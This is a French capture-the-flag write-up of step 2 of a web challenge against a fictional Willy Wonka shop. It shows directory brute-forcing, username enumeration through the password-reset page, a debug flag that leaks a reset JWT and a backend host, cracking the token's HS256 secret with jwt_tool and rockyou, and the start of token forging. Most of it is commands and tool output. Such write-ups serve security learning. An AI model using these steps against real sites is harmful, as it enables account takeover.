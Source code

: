 # Step 2

Dans le dirsearch, à part le .git on a :

```bash
[11:10:46] 200 -    5KB - /login
[11:10:47] 302 -  209B  - /logout  ->  http://willywonka.shop/
[11:10:51] 500 -  290B  - /profile
[11:10:52] 200 -    4KB - /register
[11:10:52] 200 -    4KB - /reset
[11:10:55] 302 -  265B  - /submit  ->  http://willywonka.shop/profile?filetype=image%2Fpng
```

On peut bf les users avec le `/reset`

Go intruder burp avec seclist username short : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt

La taille sur l'utilisateur test change -> 500

![bf_user_test](img/bf_user_test.png)

le debug=1 trouvé dans les sources du git + message commit :

> https://willywonka.shop/reset?debug=1

```json


Fatal error: Uncaught exception 'Swift_TransportException' with message 'Expected response code 354 but got code "566", with message "566 SMTP limit exceeded"' in /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php:386

Stack trace:

#0 /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php(281): Swift_Transport_AbstractSmtpTransport->_assertResponseCode('566 SMTP limit ...', Array)

#1 /usr/local/lib/php/Swift/Transport/EsmtpTransport.php(245): Swift_Transport_AbstractSmtpTransport->executeCommand('DATA\r\n', Array, Array)

#2 /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php(321): Swift_Transport_EsmtpTransport->executeCommand('DATA\r\n', Array)

#3 /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php(432): Swift_Transport_AbstractSmtpTransport->_doDataCommand()

#4 /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php(449): Swift_Transport_AbstractSmtpTransport->_doMailTransaction(Object(Swift_Message), 'support@songboo...', Array, Array)

#5 /usr/local/lib/php/Swift/Transport/Abstra in /usr/local/lib/php/Swift/Transport/AbstractSmtpTransport.php on line 386

While trying to send:

{
    "dest":['test'],
    "object":'Password reset instructions for WillyWonka Shop',
    "from":'admin@wwonka.shop',"relay":'backend.willywonka.shop',
    "content-html":'
        <html>
            <head>
                <meta http-equiv="content-type" content="text/html; charset=UTF-8">
                <title></title>
            </head>
            <body text="#000000" bgcolor="#FFFFFF">
                <b>Hello dear associate,</b><br>
                <br>
                You are receiving this mail after a password reset request has been
                submitted on Willy Wonka Golden Ticket Shop. <br>
                <br>

                In order to reset your password, please use this login link and
                reset your password from your profile <br>
                <br>
                <i><font size="+3"><a moz-do-not-send="true"
                href="http://willywonka.shop/reset/eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o">Reset my password</a></font></i><br>
                <br>
                <i><b>Note : if you didn't request this email, please ensure your
                account hasn't been accessed and perform any relevant security
                hardening.</b></i><br>
                <br>
                Have a nice day<br>
                <br>
                Willy Wonka<br>
                <a moz-do-not-send="true" href="http://willywonka.shop/">/</a><br>
            </body>
        </html>',
    "content-text":'
        Hello dear associate,
        
        You are receiving this mail after a password reset request has been submitted on Willy Wonka Golden Ticket Shop.
        
        In order to reset your password, please use this login link and reset your password from your profile
        
        http://willywonka.shop/reset/eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o
        
        Note : if you didn't request this email, please ensure your account hasn't been accessed and perform any relevant security hardening.
        
        Have a nice day
        
        Willy Wonka
        http://willywonka.shop/'
}

Find more documentation here :
https://google.fr
https://stackoverflow.com
https://lmgtfy.com

```

> backend.willywonka.shop

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o

## Dirsearch sur backend

trop de 403; donc je les ai viré des résulat pour éviter trop de garbage

```bash
➜  wonkachall2019 git:(master) ✗ python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://backend.willywonka.shop -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25 | grep -v 403

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: do, java, action, db, sql, ~, xml, pdf, jsp, php, old, bak, zip, tar, asp, aspx, txt, html, xsl, xslx | HTTP method: get | Threads: 25 | Wordlist size: 13259

Error Log: /opt/t/pentest/recona/dirsearch/logs/errors-19-07-09_11-44-07.log

Target: https://backend.willywonka.shop

[11:44:07] Starting: 
[11:44:07] 400 -  166B  - /%2e%2e/google.com
[11:44:32] 200 -    2KB - /login
[11:44:33] 302 -  219B  - /logout  ->  http://backend.willywonka.shop/login
[11:44:37] 302 -  219B  - /reset  ->  http://backend.willywonka.shop/login
```

retente avec le `/reset?debug=1` comme sur le frontend -> on voit un set-cookie

![backend_setcookie](img/jwt_backend_cookie.png)

> eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIk5vIHRva2VuIHByb3ZpZGVkIl19XX0.XSRiRw.QMJ9BsJX127QbsE-FgmcvQm-uBM

```json
{
  "_flashes": [
    {
      " t": [
        "message",
        "No token provided"
      ]
    }
  ]
}

{}
```

## Crack the jwt

```bash
➜  jwt_tool git:(master) python ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o /opt/t/bf/rockyou.txt 

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] sub = test
[+] aud = frontend.willywonka.shop
[+] iat = 1562664315
[+] exp = 1562664915

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: /opt/t/bf/rockyou.txt
Testing 14344380 passwords...
[+] s3cr3t is the CORRECT key!
```

## Craft new jwt

> https://www.jsonwebtoken.io/

* existing 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o

```json
{
 "typ": "JWT",
 "alg": "HS256"
}
{
 "sub": "test",
 "aud": "frontend.willywonka.shop",
 "iat": 1562664315,
 "exp": 1562664915
}
```

> clé secrète : s3cr3t
